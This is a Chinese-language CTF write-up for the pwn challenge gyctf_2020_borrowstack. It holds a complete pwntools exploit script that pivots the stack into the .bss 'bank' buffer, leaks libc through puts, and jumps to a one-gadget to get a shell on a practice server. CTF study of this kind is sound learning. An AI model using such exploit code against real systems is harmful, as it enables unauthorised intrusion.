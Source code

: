 ```yaml
---
title: 'gyctf_2020_borrowstack'
date: 2024-10-06 13:00:00 +0800
categories: [Stack_Pivoting,one_gadgets,64bit]
tags: [ctf,pwn]
---
```

- 栈迁移
- one-gadgets
- 64泄露libc

![image-20240127002802945](../assets/img/old_imgs/image-20240127002802945.png)

1. 在`read`函数中存在变量`buf`的溢出,但是长度受到了限制,只能溢出两个栈空间
2. 在后面可以往`&bank`写入内容,而`&bank`正好位于`.bss`段上,可以写入且内存中位置不会改变
3. 没有后门函数,考虑泄露`libc`,因为溢出空间有限,所以采用`one-gadget`这样只要溢出两个空间就可以拿到`shell`

```python3
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'

#io = gdb.debug('./gyctf_2020_borrowstack','b main')
elf = ELF('./gyctf_2020_borrowstack')
ret_addr = 0x00000000004004c9
leave_ret_addr = 0x0000000000400699
pop_rdi_ret = 0x0000000000400703
padding = 0x60
bank_addr = 0x601080
io = remote('node5.buuoj.cn',28420)

def leak_puts_libc():
    payload1 = flat([b'A'*padding,p64(bank_addr),p64(leave_ret_addr)])
    io.sendafter(b'want\n',payload1)
    payload2 = p64(ret_addr)*20+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main']) #填充的p64(ret_addr)*20是因为该bss段距离got表太近会导致程序错误退出/ps:真的doge
    io.sendafter(b'Done!You can check and use your borrow stack now!\n',payload2)

    puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr

def remote_pwn1(puts_addr):
    Lib = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - Lib.dump('puts')
    one_gadget=libc_base+0x4526a
    payload1 = b'A'*(padding+8)+p64(one_gadget)
    io.sendafter(b'want\n',payload1)
    io.interactive()

puts_addr = leak_puts_libc()
print('=====================')
remote_pwn1(puts_addr=puts_addr)
```

这题打的很曲折,一开始想到了栈迁移,不过一开始想的是泄露出`s`的栈地址,踩了大坑,后续又一个大坑是`bank`在栈上的位置距离`got`表太近(以前从来没注意过),直接填充会导致`got`表被破坏,程序意外退出,同时泄露的地址错误,所以需要做一个`ret滑梯`抬栈(也是才知道这个操作,长度至少是20,太多了也不行,就离谱,没动调过也不是很懂,抄答案のscript_kids)

打了好长时间,不过学到了新东西,自己搞肯定搞不出来
